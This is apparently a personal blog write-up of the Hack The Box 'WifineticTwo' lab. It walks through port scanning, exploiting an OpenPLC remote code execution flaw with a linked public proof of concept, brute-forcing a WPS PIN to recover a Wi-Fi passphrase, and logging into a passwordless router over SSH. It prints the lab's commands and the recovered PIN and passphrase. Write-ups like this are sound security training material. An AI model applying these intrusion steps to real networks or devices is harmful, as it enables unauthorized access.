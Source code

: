 +++
author = "Andrés Del Cerro"
title = "Hack The Box: WifineticTwo Writeup | Medium"
date = "2024-07-27"
description = ""
tags = [
    "HackTheBox",
    "WifineticTwo",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Network Security",
    "Wireless Hacking",
    "WPS",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "OpenPLC",
    "Exploit",
    "Linux"
]

+++

# Hack The Box: WifineticTwo Writeup

Welcome to my detailed writeup of the medium difficulty machine **"WifineticTwo"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

## 🕵️‍♂️ Initial Enumeration

### Port Scanning

First, we perform a TCP port scan to discover open ports and services.
```shell
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http-proxy Werkzeug/1.0.1 Python/2.7.18
|_http-server-header: Werkzeug/1.0.1 Python/2.7.18
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 NOT FOUND
|     content-type: text/html; charset=utf-8
|     content-length: 232
|     vary: Cookie
|     set-cookie: session=eyJfcGVybWFuZW50Ijp0cnVlfQ.ZqPPOw.iUxtyBgx_I7ywKWBIJNQZkv6zL4; Expires=Fri, 26-Jul-2024 16:35:51 GMT; HttpOnly; Path=/
|     server: Werkzeug/1.0.1 Python/2.7.18
|     date: Fri, 26 Jul 2024 16:30:51 GMT
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest:
|     HTTP/1.0 302 FOUND
```

### 🌐 Web Enumeration

Upon visiting the web service on port 8080, we identify it as an OpenPLC instance, which is known to have a Remote Code Execution (RCE) vulnerability (CVE-2021-31630).

### 📂 Initial Foothold
Using this [PoC](https://github.com/thewhiteh4t/cve-2021-31630) we can get Remote Command Execution on the target, this exploit just upload a specially designed C code that will execute on PLC start.

After executing the exploit, we gain access to a container.

```shell
hostname -I
10.0.3.2
10.0.3.52
```

### 📶 Wireless Network Exploitation
With `iw dev wlan0 scan` command, we can see that an Access Point exists, this AP BSSID is: `02:00:00:00:01:00`

This network have WPS PIN version 1 activated, so we can probably do some bruteforce to the WPS PIN to obtain the WPA PSK.

With [OneShot](https://github.com/nikita-yfh/OneShot-C)
We can bruteforce the WPS pin. The PIN is: `12345670`, Top-Level Security

With this PIN we can now obtain the WPA PSK: `NoWWEDoKnowWhaTisReal123!`

But we doesn't have a username to use this password.

##### Connecting to the wireless network
Now, we can connect to this Access Point using `wpa_passphrase` and `wpa_supplicant`

```shell
root@attica01:/tmp/oneshot# wpa_passphrase plcrouter "NoWWEDoKnowWhaTisReal123!" | sudo tee /etc/wpa_supplicant.con
network={
	ssid="plcrouter"
	#psk="NoWWEDoKnowWhaTisReal123!"
	psk=2bafe4e17630ef1834eaa9fa5c4d81fa5ef093c4db5aac5c03f1643fef02d156`
}
```
We can now authenticate to the AP

```shell
wpa_supplicant -B -c /etc/wpa_supplicant.conf -i wlan0
```

It seems that this Network doesn't have a DHCP Server on it, so we can assign one IP direction statically guessing the tipical domestic networks (192.168.0.0/24 / 192.168.1.0/24)

```shell
sudo ifconfig wlan0 192.168.1.10 netmask 255.255.255.0 up
```

We can do ping to 192.168.1.1
```shell
root@attica01:/tmp/oneshot# ping 192.168.1.1
PING 192.168.1.1 (192.168.1.1) 56(84) bytes of data.
64 bytes from 192.168.1.1: icmp_seq=1 ttl=64 time=18.2 ms
64 bytes from 192.168.1.1: icmp_seq=2 ttl=64 time=57.0 ms
```

### 🛡️ Privilege Escalation
Scanning Open Ports on the Router

Using the Pivoting Enum script suite:

```shell
git clone https://github.com/S12cybersecurity/Pivoting_Enum
cd Pivoting_Enum
./enum.sh 192.168.1.1

Open Ports:

    53/tcp: DNS
    22/tcp: SSH
    80/tcp: HTTP
    443/tcp: HTTPS
```
SSH into the Router

Surprisingly, the router's SSH allows login without a password for root.

```shell
ssh root@192.168.1.1

=== WARNING! =====================================
There is no root password defined on this device!
Use the "passwd" command to set up a new password
in order to prevent unauthorized SSH logins.
```

At this point we fully compromised this machine!

### 🎉 Conclusion

Through systematic enumeration and exploitation, we successfully rooted WifineticTwo. This involved leveraging default credentials, exploiting RCE, brute-forcing WPS PIN, and finally gaining root access via SSH.

Happy Hacking! 🚀